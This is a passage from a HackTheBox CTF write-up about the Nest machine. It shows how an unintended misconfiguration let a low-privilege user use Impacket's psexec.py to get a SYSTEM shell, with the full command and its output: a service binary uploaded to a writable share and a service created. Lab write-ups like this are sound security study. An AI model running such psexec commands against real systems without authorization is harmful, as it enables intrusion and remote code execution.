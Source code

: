 # Digging into PSExec with HTB Nest

[hackthebox](/tags#hackthebox ) [ctf](/tags#ctf ) [htb-nest](/tags#htb-nest )
[psexec](/tags#psexec ) [smb](/tags#smb ) [windows](/tags#windows )
[scmanager](/tags#scmanager ) [sddl](/tags#sddl ) [dacl](/tags#dacl )
[sacl](/tags#sacl ) [ace](/tags#ace ) [icacls](/tags#icacls )  
  
Jan 26, 2020

  * [HTB: Nest](/2020/06/06/htb-nest.html)
  * Digging into PSExec

![](https://0xdfimages.gitlab.io/img/nest-unintended-cover.png)

“You have to have administrator to PSExec.” That’s what I’d always heard. Nest
released on HTB yesterday, and on release, it had an unintended path where a
low-priv user was able to PSExec, providing a shell as SYSTEM. This has now
been patched, but I thought it was interesting to see what was configured that
allowed this non-admin user to get a shell with PSExec. Given this is a live
box, I won’t go into any of the details that still matter, saving that for a
write-up in 20ish weeks or so.

## Unintended Exploit

While working on Nest, I managed to acquire a password for the user TempUser
(I’ll obfuscate it in this post). Until the patch yesterday evening, there was
a misconfiguration in the box that allowed using `psexec`.

    
    
    root@kali# psexec.py 'tempuser:***********@10.10.10.178'
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation                  
    
    [*] Requesting shares on 10.10.10.178.....
    [-] share 'ADMIN$' is not writable.                   
    [-] share 'C$' is not writable.
    [-] share 'Data' is not writable.
    [-] share 'Secure$' is not writable.                  
    [*] Found writable share Users
    [*] Uploading file AeqkAUZe.exe
    [*] Opening SVCManager on 10.10.10.178.....
    [*] Creating service gMyg on 10.10.10.178.....
    [*] Starting service gMyg.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Windows\system32>whoami
    nt authority\system 
    

With a shell as SYSTEM, I was able to find both `user.txt` and `root.txt`

## How Did This Happen
